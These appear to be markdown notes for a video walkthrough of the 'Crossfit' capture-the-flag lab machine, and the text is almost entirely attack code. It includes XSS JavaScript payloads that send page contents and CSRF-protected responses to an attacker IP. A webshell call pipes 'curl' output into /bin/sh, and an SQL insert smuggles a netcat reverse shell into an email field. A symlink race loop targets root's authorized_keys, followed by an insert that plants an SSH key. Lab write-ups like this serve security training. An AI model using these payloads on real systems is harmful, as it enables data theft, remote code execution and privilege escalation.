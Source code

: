 ```yaml
---
description: 'Notes for https://youtu.be/jSYRyhY9JuE'
---
```


# Crossfit

## User

### Payload.js \(browse to page & retrieve contents\)

```javascript
xhr = new XMLHttpRequest();

xhr.onload = function() {
  x = new XMLHttpRequest();
  x.open("GET", 'http://10.10.14.10/?'+xhr.response);
  x.send(null);
}

xhr.open("GET", 'http://ftp.crossfit.htb/accounts/create', false);
xhr.send(null);
```

### Register.js \(send POST request as victim\)

```javascript
user = 'foo'
pass = 'foo'

xhr = new XMLHttpRequest;
xhr.withCredentials = true;

xhr.onload = function() {
  x = new XMLHttpRequest();
  x.open("GET", 'http://10.10.14.10/?'+xhr.response);
  x.send(null);
}
xhr.open('GET', 'http://ftp.crossfit.htb/accounts/create', false);
xhr.send(null);

r = /token" value="(.*)"/g;
token = r.exec(xhr.responseText)[1];

var params = '_token=' + token + '&username=' + user + '&pass=' + pass
xhr.open('POST', "http://ftp.crossfit.htb/accounts", false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
```

### Shell.js \(execute webshell command via XSS\)

```javascript
xhr = new XMLHttpRequest();

xhr.onload = function() {
  x = new XMLHttpRequest();
  x.open("GET", 'http://10.10.14.10/?'+xhr.response);
  x.send(null);
}

xhr.open("GET", 'http://development-test.crossfit.htb/xct.php?xcmd=curl 10.10.14.10/x|/bin/sh', false);
xhr.send(null);
```

## Root

### Guess.c

```c
int main (void){
	srand(time (0));
	printf("%d", rand());
	return 0;
}
```

### Become ftpadm

```bash
su -s /bin/bash -c 'echo 123>/srv/ftp/messages/123' ftpadm
```

```text
insert into users (id,email) VALUES (0,'lucy@localhost --wrong-argument || nc.traditional 10.10.14.10 1337 -e /bin/sh');
```

### Race to Root \(as hank\)

```bash
while true; do ln -s /root/.ssh/authorized_keys /var/local/$(echo -ne $(./guess)1000 | md5sum | awk '{ print $1 }') 2>/dev/null; done
```

```text
insert into messages (id, name, email, message) VALUES (1000, 'ssh-ed25519', 'xct@vulndev', 'AAAAC3NzaC1lZDI1NTE5AAAAINvEpPGmpbIYTXl69lGbFlPa137agV6rvHGq5PgU5vsF');
```

